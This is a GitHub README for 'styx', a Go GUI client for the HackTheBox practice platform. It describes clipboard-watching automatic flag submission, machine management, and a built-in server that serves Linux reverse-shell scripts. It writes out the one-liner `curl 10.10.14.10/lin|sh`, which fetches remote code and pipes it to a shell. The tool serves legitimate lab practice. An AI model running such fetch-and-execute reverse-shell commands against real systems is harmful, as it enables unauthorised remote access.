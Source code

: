 ![styx river](/styx.png)
# styx v0.0.1
 Styx is an cross-platform GUI interface for HackTheBox made in GoLang. Styx's UI is made with the [giu](https://github.com/AllenDang/giu) library.
 ## Features
 #### **Automatic Flag Submission** 
 Styx will continuously check the machine clipboard for any user or root flags, and will submit them automatically through HackTheBox's APIs. 
 #### **Built-in Reverse Shell Generator** 
 Styx contains a simple HTTP server that listens on port :61337 and returns pre-made reverse-shell scripts for Linux. Allowing you to quickly get a reverse shell with a simple  `curl 10.10.14.10/lin|sh` 
 #### **Machine Management** 
 Styx allows the user to start and stop machines on their own behalf. Flag submission is handled by the **auto flag submission** feature. 
 
## Usage
1. `go install github.com/c3l3si4n/styx@HEAD`
1. Create an app token on your HTB profile (any duration you want)
2. Set the `HTB_TOKEN` environment variable with the value containing your generated token
3. Run styx

